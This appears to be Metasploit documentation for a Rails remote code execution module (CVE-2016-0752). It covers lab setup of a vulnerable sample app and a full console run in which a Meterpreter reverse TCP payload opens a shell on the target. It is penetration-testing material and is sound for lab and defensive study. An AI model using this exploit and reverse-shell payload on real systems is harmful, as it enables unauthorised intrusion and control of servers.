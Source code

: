 ## Introduction

Rails is a web application development framework written in the Ruby language. It is designed to make programming web applications easier by making assumptions about what every developer needs to get started. It allows you to write less code while accomplishing more than many other languages and frameworks.

http://rubyonrails.org/

> This module exploits the rendering vulnerability via a temporary file upload to pop a shell (CVE-2016-0752).

## Setup

**Download and setup the sample vuln application:**

- [ ] `sudo apt-get install -y curl git`
- [ ] `curl -L https://get.rvm.io | bash -s stable --autolibs=3 --ruby=2.3.1`
- [ ] `source ~/.rvm/scripts/rvm`
- [ ] `sudo apt-get install rubygems ruby-dev nodejs zlib1g-dev -y`
- [ ] `gem install rails -v 4.0.8`
- [ ] `git clone https://github.com/forced-request/rails-rce-cve-2016-0752 pwn`
- [ ] `cd pwn`
- [ ] `bundle install`
- [ ] Edit the config/routes.rb file and add `post "users/:id", to: 'user#show'`

Basically, you just need a POST endpoint for the temporary file upload trick. Now you can start the rails server and test the module.

- [ ] `rails s -b 0.0.0.0` or `rails s -b 0.0.0.0 -e production`

## Usage

### Typical Usage

Just set ```RHOST``` and fire off the module! It's pretty much painless.
```set VERBOSE true``` if you want to see details.

```
saturn:metasploit-framework mr_me$ cat scripts/rails.rc 
use exploit/multi/http/rails_dynamic_render_code_exec
set RHOST 172.16.175.251
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 172.16.175.1
check
exploit

saturn:metasploit-framework mr_me$ ./msfconsole -qr scripts/rails.rc 
[*] Processing scripts/rails.rc for ERB directives.
resource (scripts/rails.rc)> use exploit/multi/http/rails_dynamic_render_code_exec
resource (scripts/rails.rc)> set RHOST 172.16.175.251
RHOST => 172.16.175.251
resource (scripts/rails.rc)> set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
resource (scripts/rails.rc)> set LHOST 172.16.175.1
LHOST => 172.16.175.1
resource (scripts/rails.rc)> check
[+] 172.16.175.251:3000 The target is vulnerable.
resource (scripts/rails.rc)> exploit
[*] Exploit running as background job.
[*] Started reverse TCP handler on 172.16.175.1:4444 

[*] Sending initial request to detect exploitability
msf exploit(rails_dynamic_render_code_exec) > [*] 172.16.175.251:3000 - Starting up our web service on http://172.16.175.1:1337/iUDaRVpz ...
[*] Using URL: http://0.0.0.0:1337/iUDaRVpz
[*] Local IP: http://192.168.100.13:1337/iUDaRVpz
[*] uploading image...
[+] injected payload
[*] 172.16.175.251:3000 - Sending the payload to the server...
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
[*] Sending stage (1495599 bytes) to 172.16.175.251
[*] Meterpreter session 1 opened (172.16.175.1:4444 -> 172.16.175.251:41246) at 2016-09-29 17:52:00 -0500
[+] Deleted /tmp/NhhGKCCIgwF

msf exploit(rails_dynamic_render_code_exec) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > shell
Process 50809 created.
Channel 1 created.
$ id
uid=1000(student) gid=1000(student) groups=1000(student),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
$
```
